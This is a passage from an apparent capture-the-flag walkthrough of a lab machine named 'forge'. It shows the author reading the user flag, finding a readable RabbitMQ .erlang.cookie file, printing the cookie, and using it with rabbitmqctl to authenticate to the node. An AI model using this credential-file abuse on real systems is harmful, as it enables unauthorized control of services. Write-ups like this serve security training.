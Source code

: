 ```shell
azrael@forge:~$ cat user.txt

98d3a30fa86523c580144d317be0c47e
```


If we check `/var/lib`, we can find this:


```
drwxr-xr-x  5 rabbitmq  rabbitmq  4096 Sep 12 00:32 rabbitmq
```

We find a `rabbitmq` directory, let's check the contents:

```
azrael@forge:~$ ls -la /var/lib/rabbitmq
total 896
drwxr-xr-x  5 rabbitmq rabbitmq   4096 Sep 12 00:32 .
drwxr-xr-x 45 root     root       4096 Sep 20 19:11 ..
drwxr-x---  3 rabbitmq rabbitmq   4096 Aug 15  2024 config
-r-----r--  1 rabbitmq rabbitmq     16 Feb 26 20:53 .erlang.cookie
-rw-r-----  1 rabbitmq rabbitmq 889386 Feb 26 20:53 erl_crash.dump
drwxr-x---  4 rabbitmq rabbitmq   4096 Feb 26 20:53 mnesia
-rw-r-----  1 rabbitmq rabbitmq      0 Sep 12 00:33 nc
drwxr-x---  2 rabbitmq rabbitmq   4096 Jul 18  2024 schema
```

We found a `.erlang.cookie` file, let's read it:

```
azrael@forge:~$ cat /var/lib/rabbitmq/.erlang.cookie
R2z1G0FXf6Rk2H2w
```

Now, from our Nmap scan at the beginning, we now that rabbitmq node is running on this server, using the erlang cookie we can interact with the node, let's add `forge` to `/etc/hosts`, and then, we can use `rabbitmqctl`:

```
sudo rabbitmqctl --erlang-cookie 'R2z1G0FXf6Rk2H2w' --node rabbit@forge status

Status of node rabbit@forge ...
[]
Runtime

OS PID: 1193
OS: Linux
Uptime (seconds): 4760
Is under maintenance?: false
RabbitMQ version: 3.9.13
RabbitMQ release series support status: see https://www.rabbitmq.com/release-information
Node name: rabbit@forge
Erlang configuration: Erlang/OTP 24 [erts-12.2.1] [source] [64-bit] [smp:2:2] [ds:2:2:10] [async-threads:1] [jit]
Crypto library: 
Erlang processes: 393 used, 1048576 limit
Scheduler run queue: 1
Cluster heartbeat timeout (net_ticktime): 60

Plugins

Enabled plugin file: /etc/rabbitmq/enabled_plugins
Enabled plugins:

 * rabbitmq_management
 * amqp_client
 * rabbitmq_web_dispatch
 * cowboy
```